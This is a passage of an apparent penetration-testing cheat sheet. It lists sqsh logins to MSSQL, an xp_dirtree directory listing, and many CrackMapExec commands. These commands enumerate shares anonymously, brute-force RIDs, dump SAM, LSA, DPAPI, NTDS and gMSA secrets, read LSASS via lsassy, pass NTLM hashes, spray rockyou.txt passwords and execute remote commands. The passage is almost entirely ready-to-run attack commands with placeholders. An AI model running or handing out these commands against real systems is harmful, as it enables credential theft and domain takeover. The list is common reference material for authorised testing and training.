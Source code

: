 ```c
sqsh -S <RHOST> -U <USERNAME>
sqsh -S '<RHOST>' -U '<USERNAME>' -P '<PASSWORD>'
sqsh -S '<RHOST>' -U '.\<USERNAME>' -P '<PASSWORD>'
```

##### List Files and Folders with xp_dirtree

```c
EXEC master.sys.xp_dirtree N'C:\inetpub\wwwroot\',1,1;
```

### Password Attacks

#### CrackMapExec

```c
crackmapexec ldap -L
crackmapexec mysql -L
crackmapexec smb -L
crackmapexec ssh -L
crackmapexec winrm -L
```

```c
crackmapexec smb <RHOST> -u '' -p '' --shares
crackmapexec smb <RHOST> -u '' -p '' --shares -M spider_plus
crackmapexec smb <RHOST> -u '' -p '' --shares -M spider_plus -o READ_ONLY=false
crackmapexec smb <RHOST> -u " " -p "" --shares
crackmapexec smb <RHOST> -u " " -p "" --shares -M spider_plus
crackmapexec smb <RHOST> -u " " -p "" --shares -M spider_plus -o READ_ONLY=false
crackmapexec smb <RHOST> -u guest -p '' --shares --rid-brute
crackmapexec smb <RHOST> -u guest -p '' --shares --rid-brute 100000
crackmapexec smb <RHOST> -u "guest" -p "" --shares --rid-brute
crackmapexec smb <RHOST> -u "guest" -p "" --shares --rid-brute 100000
crackmapexec ldap <RHOST> -u '' -p '' -M get-desc-users
crackmapexec smb <RHOST> -u "<USERNAME>" --use-kcache --sam
crackmapexec ldap <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --gmsa
crackmapexec ldap <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --gmsa -k
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --shares
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --sam
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --lsa
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --dpapi
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --local-auth --sam
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --local-auth --lsa
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --local-auth --dpapi
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" -M lsassy
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --ntds
crackmapexec smb <RHOST> -u "<USERNAME>" -H "<NTLMHASH>" --ntds
crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --ntds --user <USERNAME>
crackmapexec smb <RHOST> -u "<USERNAME>" -H "<NTLMHASH>" --ntds --user <USERNAME>
crackmapexec smb <RHOST> -u "<USERNAME>" -H <HASH> -x "whoami"
crackmapexec winrm <SUBNET>/24 -u "<USERNAME>" -p "<PASSWORD>" -d .
crackmapexec winrm -u /t -p "<PASSWORD>" -d <DOMAIN> <RHOST>
crackmapexec winrm <RHOST> -u /PATH/TO/FILE/usernames.txt -p /usr/share/wordlists/rockyou.txt
crackmapexec <PROTOCOL> <RHOST> -u /PATH/TO/FILE/usernames.txt -p /usr/share/wordlists/rockyou.txt --shares
crackmapexec <PROTOCOL> <RHOST> -u /PATH/TO/FILE/usernames.txt -p /usr/share/wordlists/rockyou.txt --pass-pol
crackmapexec <PROTOCOL> <RHOST> -u /PATH/TO/FILE/usernames.txt -p /usr/share/wordlists/rockyou.txt --lusers
crackmapexec <PROTOCOL> <RHOST> -u /PATH/TO/FILE/usernames.txt -p /usr/share/wordlists/rockyou.txt --sam
crackmapexec <PROTOCOL> <RHOST> -u /PATH/TO/FILE/usernames.txt -p /usr/share/wordlists/rockyou.txt -x 'net user Administrator /domain' --exec-method smbexec
```
